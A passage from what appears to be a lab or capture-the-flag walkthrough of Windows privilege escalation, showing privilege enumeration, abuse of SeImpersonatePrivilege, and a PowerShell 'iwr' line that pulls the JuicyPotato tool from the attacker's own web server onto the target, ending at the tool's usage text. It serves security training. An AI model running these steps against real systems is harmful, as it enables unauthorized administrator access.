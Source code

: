 From the `systeminfo` result, it looks like we are on a Windows 10 Pro machine which is running on VMware. 

```
PS C:\Users\kohsuke\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

From the current user's privilege information, it can be determined that we have `SeImpersonatePrivilege` which would allow us to impersonate someone else. Using this we can try to impersonate the admin on this machine.

From this [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens) page we confirm that this privilege can be exploit to perform privilege escalation using a tool like [Juicy Potato](https://github.com/ohpe/juicy-potato).

We need to download the executable file from [here](https://github.com/ohpe/juicy-potato/releases/). Once downloaded, we can send it to the target machine my starting a python server on our own machine and using the IWR command on the target machine.

```
PS C:\Users\kohsuke\Downloads> iwr "http://<your-ip>:8000/JuicyPotato.exe" -o jp.exe
PS C:\Users\kohsuke\Downloads> dir


    Directory: C:\Users\kohsuke\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/3/2024   5:03 AM         347648 jp.exe

PS C:\Users\kohsuke\Downloads> .\jp.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```
